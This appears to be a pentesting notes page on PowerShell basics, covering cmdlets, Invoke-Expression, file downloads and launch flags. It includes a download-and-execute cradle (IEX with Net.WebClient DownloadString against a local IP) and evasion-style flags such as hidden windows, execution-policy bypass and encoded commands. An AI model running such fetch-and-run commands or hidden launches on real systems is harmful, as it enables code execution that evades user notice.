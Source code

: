 # Powershell Basics

Microsoft has a free course on Introduction to Powershell [here](https://docs.microsoft.com/en-us/learn/modules/introduction-to-powershell/) on their website. Information on [about\_Powershell.exe](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about\_powershell\_exe?view=powershell-5.1\&viewFallbackFrom=powershell-7.2).

We can run powershell from the Start Menu by searching for it, through the command prompt by running `powershell.exe`, or through the run dialogbox(`windows key+r`) and running `powershell.exe`

### Cmdlet

A cmdlet is a lightweight command that is used in the PowerShell environment. The PowerShell runtime invokes these cmdlets within the context of automation scripts that are provided at the command line. Cmdlets perform an action and typically return a Microsoft .NET object to the next command in the pipeline. A cmdlet is a single command that participates in the pipeline semantics of PowerShell. This includes binary (C#) cmdlets, advanced script functions, CDXML, and Workflows.

## Commands

* `IEX` OR `Invoke Expression`
  * The `Invoke-Expression` cmdlet evaluates or runs a specified string as a command and returns the results of the expression or command. Without `Invoke-Expression`, a string submitted at the command line is returned (echoed) unchanged.

### Download files:

*   Invoke-WebRequest http://`(IP)`:(PORT)/(FILE) -Outfile (Outputfile)

    * Invoke-WebRequest -URI http://192.168.1.52:8000/test.txt -Outfile Downloaded.txt



![](<../../.gitbook/assets/image (191).png>)

* "IEX (New-Object Net.WebClient).DownloadString('URL')"
  * IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.52:8000/test.txt')

## Arguments

* `-NoP` OR `-NoProfile`
  * When you launch PowerShell with NoProfile parameter, it ensures to run script in default PowerShell environment and run without any Windows PowerShell profile. Does not load the Windows PowerShell profile.
  * powershell.exe -NoP
* `-NonI` OR `-NonInteractive`
  * Does not present an interactive prompt to the user.
* `-W Hidden` OR `-WindowStyle Hidden`
  * Sets the window style to Normal, Minimized, Maximized or Hidden.
* `-Exec Bypass` OR `-ExecutionPolicy Bypass`
  * Sets the default execution policy for the current session and saves it in the `$env:PSExecutionPolicyPreference` environment variable. This parameter does not change the Windows PowerShell execution policy that is set in the registry.
* `-Enc` OR `-EncodedCommand`
  * Accepts a base-64-encoded string version of a command. Use this parameter to submit commands to Windows PowerShell that require complex quotation marks or curly braces.
